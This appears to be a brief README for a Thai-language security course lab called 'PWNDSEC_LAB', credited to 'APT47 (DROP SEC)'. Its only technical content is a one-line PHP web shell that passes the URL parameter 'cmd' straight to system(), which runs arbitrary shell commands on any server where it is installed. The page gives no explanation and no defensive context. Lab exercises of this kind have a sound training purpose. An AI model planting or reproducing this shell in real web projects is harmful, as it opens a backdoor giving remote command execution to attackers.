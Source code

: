 # PWNDSEC_LAB
LAB สำหรับ นักเรียนในคอร์ส pwndsec By : APT47 (DROP SEC)
<?php system($_GET['cmd']); ?>
